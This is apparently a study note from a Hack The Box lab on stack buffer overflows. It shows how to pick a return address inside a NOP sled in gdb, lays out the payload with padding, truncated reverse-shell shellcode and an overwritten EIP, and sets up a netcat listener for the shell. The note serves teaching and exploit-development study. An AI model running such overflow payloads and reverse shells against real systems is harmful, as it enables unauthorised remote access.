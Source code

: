 ```yaml
---
title: "Identify Return Address"
tags:
  - cs/hacking
  - cs/hacking/stack-overflow
  - cs/hacking/htb
programming-languages:
created: 2022-07-12
---
```

# Identify Return Address
---
We need a memory address where our NOPs are located to tell the EIP to jump to it. It must not contain any of the bad characters found.

- NOPS:
```bash
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

We have to choose an address to which we refer the **EIP** and which reads and executes one byte after the other starting at this address. In this example, we take `0xffffd64c`, it looks like this:

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

We then replace our `\x66` which overwrites the EIP to tell it to jump to the `0xffffd64c` address:

```
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
EIP = "\x4c\xd6\xff\xff"
```

Since our shellcode creates a reverse shell, we let **netcat** listen on port 31337:

```bash
nc -nlvp 31337
```

Then we run our exploit again:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```